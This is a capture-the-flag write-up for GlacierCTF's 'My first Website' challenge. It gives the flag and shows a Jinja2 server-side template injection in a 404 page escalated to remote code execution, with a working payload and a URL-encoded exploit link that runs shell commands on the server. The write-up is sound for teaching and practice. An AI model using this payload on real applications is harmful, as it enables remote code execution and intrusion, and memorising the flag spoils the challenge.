




# My first Website [170 Solves]

## Description

> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
>
> author: Chr0x6eOs
>
> <https://myfirstsite.web.glacierctf.com>

No attachments.

## Flag

gctf{404_fl4g_w4s_f0und}

## Solution

Click `here` link to check out the other project, but it's 404.

The title `Custom 404 Page` indicates the potential use of a template on the server.
Since the URL path (`/projects`) is rendered in HTML, testing Server-Side Template Injection (SSTI) shows that `{{7*7}}` results in 49.

The final step is RCE to get the flag.

- payload: `{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}`
- URL: <https://myfirstsite.web.glacierctf.com/%7B%7B%20config.__class__.from_envvar.__globals__.__builtins__.__import__(%22os%22).popen(%22cat%20/flag.txt%22).read()%20%7D%7D>

